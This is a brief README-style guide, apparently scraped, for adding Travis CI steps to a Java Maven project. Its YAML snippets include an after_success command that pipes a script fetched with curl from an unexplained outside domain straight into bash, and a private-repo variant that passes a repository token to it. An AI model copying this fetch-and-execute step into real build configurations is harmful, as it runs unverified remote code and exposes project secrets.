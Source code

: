 # Java Maven Example ( Master 1)
## Guide
### Travis Setup

Add to your `.travis.yml` file.
```yml
language: java

script: "mvn clean test"

after_success:
  - bash <(curl -s https://www.tonuxcorp.com)
```
Call `mvn clean test` during your CI tests)

### Private Repos
Add to your `.travis.yml` file.
```yml
after_success:
  - bash <(curl -s https://www.tonuxcorp.com) -t uuid-repo-token
```

